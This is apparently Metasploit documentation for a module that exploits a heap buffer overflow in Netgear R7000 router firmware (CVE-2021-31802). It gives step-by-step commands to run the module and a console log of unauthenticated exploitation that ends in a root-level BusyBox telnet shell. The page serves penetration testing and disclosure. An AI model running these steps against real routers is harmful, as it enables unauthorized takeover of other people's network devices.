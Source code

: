 ## Introduction
This module exploits a heap buffer overflow in the `genie.cgi?backup.cgi`
page of Netgear R7000 routers running firmware versions `1.0.11.116` and prior.
Successful exploitation results in unauthenticated attackers gaining
code execution as the `root` user.

The exploit utilizes these privileges to enable the telnet server
which allows attackers to connect to the target and execute commands
as the `admin` user from within a BusyBox shell. Users can connect to
this telnet server by running the command `telnet *target IP*`.


## Vulnerable Application

Netgear R7000 routers running firmware version `1.0.11.116` and earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/admin/http/netgear_r7000_backup_cgi_heap_overflow_rce `
  3. Do: `set RHOSTS <RouterIP>`
  5. Do: `exploit`
  6. Wait for the message about how to connect to the telnet shell to appear.
  7. Connect to the telnet shell by executing `telnet <RouterIP>`
  8. Verify that you now have a BusyBox shell running as the `admin` user.

## Options

## Scenarios

### Netgear R7000 with Firmware Version 1.0.11.116
```
msf6 > use auxiliary/admin/http/netgear_r7000_backup_cgi_heap_overflow_rce
msf6 auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) > set RHOSTS 192.168.1.1
RHOSTS => 192.168.1.1
msf6 auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) > show options

Module options (auxiliary/admin/http/netgear_r7000_backup_cgi_heap_overflow_rce):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.1.1      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host

msf6 auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) > run
[*] Running module against 192.168.1.1

[*] Executing automatic check (disable AutoCheck to override)
[*] Router is a NETGEAR router (R7000)
[+] The target is vulnerable.
[*] Sending 10th and final packet. The exploit should hang at this point.
[*] Connect to the telnet shell by running: telnet 192.168.1.1
[+] Exploit complete, connect to your shell!
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/netgear_r7000_backup_cgi_heap_overflow_rce) >
```

And in a separate terminal shell:

```
 ~/git/metasploit-framework │ CVE-2021-31802 !1  telnet 192.168.1.1                                                ✔ │ 2.7.2 Ruby
Trying 192.168.1.1...
telnet: Unable to connect to remote host: Connection refused
 ~/git/metasploit-framework │ CVE-2021-31802 !2  telnet 192.168.1.1                                              1 х │ 2.7.2 Ruby
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^]'.


BusyBox v1.7.2 (2020-12-21 13:01:11 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# uname -a
Linux R7000 2.6.36.4brcmarm+ #30 SMP PREEMPT Mon Dec 21 12:35:01 CST 2020 armv7l unknown
# id
uid=0(admin) gid=0(root)
#
```



